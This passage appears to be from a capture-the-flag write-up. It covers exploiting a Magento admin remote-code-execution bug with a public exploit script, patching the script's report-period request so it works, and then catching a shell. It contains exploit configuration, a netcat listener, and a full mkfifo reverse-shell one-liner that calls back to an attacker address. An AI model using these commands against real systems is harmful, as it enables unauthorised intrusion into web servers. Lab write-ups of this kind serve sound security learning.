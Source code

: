 <figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-19-07h31m28s270.png" class="kg-image"></figure>

Once completed the config looks like:

    # Config.
    username = 'forme'
    password = 'forme'
    php_function = 'system' # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000' # This needs to be the exact date from /app/etc/local.xml

We can then try this out:

    python 37811.py http://10.10.10.140/index.php/admin "id"
    Traceback (most recent call last):
    File "post-rce.py", line 68, in <module>
        tunnel = tunnel.group(1)
    AttributeError: 'NoneType' object has no attribute 'group'

Hmm, okay. So after hunting around I came across [https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/) which had a good explaination of the vulnerability and helped make sense of the exploit.

Looking at the code it was doing a regular expression search and not &nbsp;finding the information required. I added some debug lines and verified &nbsp;the data wasn't being returned by the server. I then fired up the &nbsp;developer console in firefox and navigated around the page that was &nbsp;being accessed and in the network tab found that the information was &nbsp;being returned if the report period was changed to Year to Date. Looking &nbsp;at the developer console this was specified as `1y` in the request. I then edited the script and replaced

    request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)

with

    request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)

I then reran my test which called `id` and it worked. I then set up a listener with `nc -lvp 1234` and ran:

    python post-rce.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f"

Which got me a shell a different way!

